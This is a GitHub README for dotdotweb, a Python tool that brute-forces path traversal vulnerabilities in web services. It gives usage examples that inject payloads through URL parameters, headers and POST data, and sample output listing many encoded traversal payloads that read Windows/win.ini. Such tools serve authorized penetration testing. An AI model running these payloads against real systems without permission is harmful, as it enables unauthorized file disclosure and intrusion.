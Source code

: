 dotdotfarm
==========
Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for web services (HTTP) (Alpha version)

Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make **~3K requests per second**

Features
========
- async client for parallel requesting of target (speedup)
- increasing simultaneous connections in the TCP connector (speedup)
- ability to fetch files' content after succeeding payload
- specifying payload in any part of query (url, headers or POST data)

Installation
============
```bash
git clone https://github.com/treddis/dotdotfarm
cd dotdotfarm
pip install -r requirements.txt
python setup.py install
```

Usage
=====
```bash
usage: dotdotweb.py [-h] [-o {windows,linux}] [-D DEPTH] [-t TIMEOUT] [-f FILE] [-R] [-fs FS] [-fc FC] [-H HEADERS] [-d DATA]
                    [-m {get,post,put,trace,delete}]
                    url

path traversal identificator & exploit

positional arguments:
  url                   url for testing

options:
  -h, --help            show this help message and exit
  -o {windows,linux}, --os-type {windows,linux}
  -D DEPTH, --depth DEPTH
                        depth of PT searching
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of connections
  -f FILE, --file FILE  specific file for PT detection
  -R, --print-files     read traversed files
  -fs FS                filter output by size
  -fc FC                filter output by response code
  -H HEADERS, --header HEADERS
                        specify header for requests
  -d DATA, --data DATA  specify POST data
  -m {get,post,put,trace,delete}, --method {get,post,put,trace,delete}
                        used HTTP method for requests
```

Passing in GET parameters
----------------------
Passing brute parameters via `?par=val` pairs:
```bash
dotdotweb -o windows -fc 500 http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

Passing via headers
-------------------
Passing brute parameters via `Origin: master=FUZZ` pairs:
```bash
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Passing via POST data
---------------------
Passing brute parameters via POST data parameters
```bash
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Example output
==============
```bash
dotdotweb -o windows "http://localhost:8080/pathtrav?query=FUZZ" 

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                       [Status: 200, Size: 111]
 ../Windows/win.ini                                                             [Status: 200, Size: 111]
 ..\Windows\win.ini                                                             [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                         [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                       [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                               [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                         [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                           [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                           [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                       [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                       [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                      [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                     [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                          [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                              [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                                 [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                         [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                      [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                              [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                      [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                           [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                                 [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                       [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                         [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                         [Status: 200, Size: 111]
100%|█████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 6960/6960 [00:12<00:00, 575.63it/s]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```

Limitations
===========
- Python 3.8+
- High speed of requests rate can trigger WAF of you target
- Unable to pass own dictionary for payload generator
- No way to flexibly forge payloads
- ~~Need of OS specifying~~
